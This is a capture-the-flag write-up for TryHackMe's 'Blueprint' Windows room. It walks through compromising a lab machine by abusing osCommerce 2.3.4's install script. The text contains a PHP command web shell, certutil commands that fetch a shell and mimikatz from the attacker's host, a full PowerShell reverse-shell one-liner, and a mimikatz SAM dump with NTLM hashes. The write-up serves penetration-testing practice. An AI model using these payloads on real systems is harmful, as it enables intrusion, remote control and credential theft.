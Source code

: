 ```bash
# PLATFORM          . THM
# CTF NAME          . Blueprint
# DESCRIPTION       . Hack into this Windows machine and escalate your privileges to Administrator.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/blueprint
```

```
sudo nmap -sSVC -T5 -PN 10.10.81.40 -oN blueprint
```

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```

- Both `443` and `8080` ports seem to run the same web application. However, the application doesn't seem properly configured and we get access to some documentation, the database schema and to a HTML only front end of the app.

- I decided to spend some time reading about this app, `oscommerce`. I found out that the install process is happening in `/oscommerce-2.3.4/catalog/install/install.php` and we can append `?step=` to skip to whatever installation step we want.

- I also found out that this `/install` directory should be removed after the installation is finished, as it represents a potential attack vector, since an unauthorized person can "reinstall" the page  - more exactly, step 4 of the installation process. This will (re)generate the .php config file - which the app doesn't check to see if it already exists or not - and an attacker an inject code into this config file.

- So this is when decided to check `exploit-db` for CVEs.

- I found [this](https://www.exploit-db.com/exploits/44374) and [this](https://www.exploit-db.com/exploits/50128). I tried modifying the first script to run on `2.3.4` and it did ok ; I used a PHP reverse shell as the payload and it ... almost worked??? 

- My netcat listener would receive the connection and then close instantly. I used `-k` to keep it alive, but i think it was still killed in the background, as the "shell" wasn't responding to any commands. 

- Decided to upload a simple cmd php shell. - `<?php echo shell_exec($_GET["cmd"]); ?>`

- Using the payload below, I've transferred it to the target webserver using the script above.

```
shell_exec("certutil -urlcache -split -f http://10.11.53.46:80/shell.php shell.php");'
```

- I got a reverse shell using a powershell one liner, URL encoded in the `/shell.php?cmd=` URL.

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ip',3131);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- The flag is located at `C:\Users\Administrator\Desktop\root.txt.txt`.

- The CTF asks for the password hash of user "Lab". We can dump that using mimikatz.

- I transferred mimikatz on the target machine using

```
certutil -urlcache -split -f "http://IP:80/mimikatz.exe" mimikatz.exe
```

- Commands like `Invoke-RestMethod` and `Invoke-WebRequest` did not seem to be working.

- Using `.\mimikatz.exe "lsadump::sam" exit` 

```
mimikatz(commandline) # lsadump::sam
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 549a1bcb88e35dc18c7a0b0168631411

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: 30e87bf999828446a1c1209ddde4c450

mimikatz(commandline) # exit
Bye!
```

**PS**: hash can be cracked using crackstation. 